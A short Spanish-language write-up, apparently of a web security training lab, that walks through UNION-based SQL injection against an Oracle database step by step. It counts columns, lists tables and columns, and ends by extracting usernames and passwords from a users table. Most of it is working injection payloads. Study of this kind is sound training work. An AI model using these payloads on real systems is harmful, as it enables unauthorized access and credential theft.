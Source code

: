 Tenemos el siguiente laboratorio:
![[Pasted image 20240517093647.png]]
Lo primero será evaluar el número de columnas, donde vemos que hay 2:
```bash
Lifestyle'+UNION+SELECT+'NULL','NULL'+FROM+dual
```
![[Pasted image 20240517093848.png]]
Ahora, para conocer el nombre de las tablas, usamos la siguiente query:
```bash
Lifestyle'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
![[Pasted image 20240517093932.png]]
Si miramos el código fuente, vemos una tabla de usuarios:
![[Pasted image 20240517094906.png]]
Ahora, vemos la tabla USERS_MWEPIF, la cual puede ser interesante, por lo que usamos el siguiente payload para acceder a su información:
```bash
Lifestyle'UNION+SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_MWEPIF'-- -
```
Y habremos obtenido las credenciales:
```bash
PASSWORD_SJGWAQ
USERNAME_IBGKKV
```
![[Pasted image 20240517095340.png]]
Para ver las credenciales de los usuarios, usamos la siguiente consulta utilizando la información obtenida anteriormente:
```bash
Lifestyle'UNION+SELECT USERNAME_IBGKKV, PASSWORD_SJGWAQ FROM USERS_MWEPIF-- -
```
![[Pasted image 20240517095640.png]]
Y ya habremos resuelto el laboratorio:
![[Pasted image 20240517095704.png]]
